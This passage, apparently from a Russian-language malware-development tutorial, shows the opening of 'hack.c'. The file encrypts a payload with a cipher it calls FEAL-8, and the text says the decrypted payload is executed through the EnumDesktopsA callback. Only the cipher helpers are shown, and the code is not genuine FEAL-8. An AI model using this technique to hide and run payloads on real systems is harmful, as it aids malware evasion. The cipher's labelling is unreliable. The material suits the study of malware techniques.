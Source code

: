 и расшифрованная полезная нагрузка выполняется с помощью функции `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// FEAL-8 decryption function
```